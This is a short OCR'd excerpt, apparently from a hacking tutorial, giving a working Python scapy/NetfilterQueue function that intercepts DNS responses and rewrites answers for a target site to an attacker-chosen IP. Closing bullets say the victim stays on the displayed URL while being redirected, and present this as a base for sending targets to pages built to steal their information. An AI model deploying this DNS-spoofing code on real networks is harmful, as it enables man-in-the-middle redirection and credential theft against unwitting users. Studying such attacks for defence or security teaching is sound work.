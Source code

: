     def process_packet(packet: Packet) -> None:
        # convert NFQ packet to scapy
        scapy_packet = scapy.IP(packet.get_payload())
        # check packet for DNS response
        if scapy_packet.haslayer(scapy.DNSRR):
            # check packet for target website in DNS request
            qname = scapy_packet[scapy.DNSQR].qname
            if SPOOF_SITE in qname:
                # create modified DNS reponse
                answer = scapy.DNSRR(rrname=qname, rdata=SPOOF_IP)
                scapy_packet[scapy.DNS].an = answer
                scapy_packet[scapy.DNS].ancount = 1
                # delete verification fields
                del scapy_packet[scapy.IP].len
                del scapy_packet[scapy.IP].chksum
                del scapy_packet[scapy.UDP].len
                del scapy_packet[scapy.UDP].chksum
                # fields will be recalculated
                # print modified packet
                print(scapy_packet.show())
                # return modified scapy packet to NFQ packet
                packet.set_payload(bytes(scapy_packet))
        # NFQ send out the modified packet
        packet.accept()
    ```
* if we now go to website in our browser and enter the spoofed web-address, we will be redirected to another website even to the displayed URL remains unchanged
* this is a powerful foundation to redirect targets to web-pages designed by hackers to steal their information    
